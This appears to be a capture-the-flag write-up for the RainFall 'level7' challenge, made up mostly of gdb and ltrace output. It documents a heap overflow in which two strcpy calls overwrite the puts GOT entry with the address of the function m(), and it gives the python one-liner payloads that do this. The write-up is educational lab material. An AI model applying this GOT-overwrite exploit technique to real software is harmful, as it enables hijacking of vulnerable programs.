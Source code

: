 ```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
 Heap befor srcpy 1 
```
"--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038 
```
  Heap after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



  
  
  
  
  
